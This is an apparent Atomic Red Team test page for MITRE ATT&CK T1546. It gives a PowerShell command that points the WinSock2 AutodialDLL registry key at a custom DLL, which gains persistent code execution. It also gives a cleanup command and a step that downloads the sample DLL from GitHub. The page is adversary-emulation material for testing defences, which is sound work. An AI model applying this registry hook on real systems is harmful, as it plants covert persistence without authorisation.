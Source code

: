 # T1546 - Event Triggered Execution
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546)
<blockquote>Adversaries may establish persistence and/or elevate privileges using system mechanisms that trigger execution based on specific events. Various operating systems have means to monitor and subscribe to events such as logons or other user activity such as running specific applications/binaries. 

Adversaries may abuse these mechanisms as a means of maintaining persistent access to a victim via repeatedly executing malicious code. After gaining access to a victim system, adversaries may create/modify event triggers to point to malicious content that will be executed whenever the event trigger is invoked.(Citation: FireEye WMI 2015)(Citation: Malware Persistence on OS X)(Citation: amnesia malware)

Since the execution can be proxied by an account with higher permissions, such as SYSTEM or service accounts, an adversary may be able to abuse these triggered execution mechanisms to escalate their privileges. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence with Custom AutodialDLL](#atomic-test-1---persistence-with-custom-autodialdll)


<br/>

## Atomic Test #1 - Persistence with Custom AutodialDLL
The DLL pointed to by the AutodialDLL registry key is loaded every time a process connects to the internet. Attackers can gain persistent code execution by setting this key to a DLL of their choice. 

The sample dll provided, AltWinSock2DLL, will launch the notepad process. Starting and stopping a web browser such as MS Edge or Chrome should result in the dll executing.
[Blog](https://www.mdsec.co.uk/2022/10/autodialdlling-your-way/)

**Supported Platforms:** Windows


**auto_generated_guid:** aca9ae16-7425-4b6d-8c30-cad306fdbd5b






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters -Name AutodialDLL -Value PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll
```

#### Cleanup Commands:
```powershell
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters -Name AutodialDLL -Value  $env:windir\system32\rasadhlp.dll
```



#### Dependencies:  Run with `powershell`!
##### Description: AltWinSock2DLL DLL must exist on disk at specified at PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll
##### Check Prereq Commands:
```powershell
if (Test-Path "#{helper_file}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1546\bin\" -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546/bin/AltWinSock2DLL.dll" -OutFile "PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll"
```




<br/>
